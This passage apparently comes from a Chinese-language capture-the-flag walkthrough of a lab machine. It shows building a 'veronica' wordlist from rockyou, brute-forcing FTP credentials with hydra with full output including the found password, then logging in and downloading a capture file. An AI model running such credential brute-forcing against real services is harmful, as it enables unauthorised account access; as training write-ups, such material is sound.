 ![image-20220715142408938](../../.gitbook/assets/image-20220715142408938.png)

现在我需要密码。回到之前的电子邮件线索，我记得 Veronica "Rocks"，而且她可能在密码中使用了她的名字。有了这些信息，我从 rockyou 创建了一个包含单词"veronica"的单词表。

```
┌──(root💀kali)-[/tmp]
└─# hydra -l veronica -P dict ftp://192.168.32.170     
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2022-07-15 02:28:22
[DATA] max 16 tasks per 1 server, overall 16 tasks, 773 login tries (l:1/p:773), ~49 tries per task
[DATA] attacking ftp://192.168.32.170:21/
[21][ftp] host: 192.168.32.170   login: veronica   password: babygirl_veronica07@yahoo.com
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 1 final worker threads did not complete until end.
[ERROR] 1 target did not resolve or could not be connected
[ERROR] 0 target did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2022-07-15 02:28:41
```

登录FTP服务器

```
┌──(root💀kali)-[/tmp]
└─# ftp 192.168.32.170                                                                                         255 ⨯
Connected to 192.168.32.170.
220 Welcome to ColoradoFTP - the open source FTP server (www.coldcore.com)
Name (192.168.32.170:root): veronica
331 User name okay, need password.
Password:
230 User logged in, proceed.
Remote system type is UNIX.
ftp> dir
200 PORT command successful.
150 Opening A mode data connection for /.
-rwxrwxrwx 1 ftp 719128 Aug 17 12:16 eg-01.cap
-rwxrwxrwx 1 ftp 595 Aug 20 12:55 email-from-billy.eml
226 Transfer completed.
ftp> bin
200 Type set to I
ftp> get eg-01.cap
local: eg-01.cap remote: eg-01.cap
200 PORT command successful.
150 Opening I mode data connection for eg-01.cap.
226 Transfer completed for "eg-01.cap".
719128 bytes received in 0.74 secs (948.2698 kB/s)
```